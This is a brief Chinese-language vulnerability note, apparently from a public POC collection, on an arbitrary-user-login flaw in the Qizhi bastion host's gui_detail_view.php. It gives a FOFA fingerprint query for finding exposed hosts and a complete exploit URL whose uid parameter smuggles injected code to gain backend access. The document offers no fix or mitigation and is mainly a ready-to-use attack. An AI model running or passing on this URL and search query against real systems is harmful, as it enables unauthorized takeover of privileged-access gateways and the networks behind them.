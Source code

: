 # 齐治堡垒机 gui_detail_view.php 任意用户登录漏洞

## 漏洞描述

齐治堡垒机 存在任意用户登录漏洞，访问特定的Url即可获得后台权限

## 漏洞影响

```
齐治堡垒机
```

## FOFA

```
app="齐治科技-堡垒机"
```

## 漏洞复现

漏洞POC为

```plain
http://xxx.xxx.xxx.xxx/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=shterm
```



![](./images/202202101931947.png)

## 
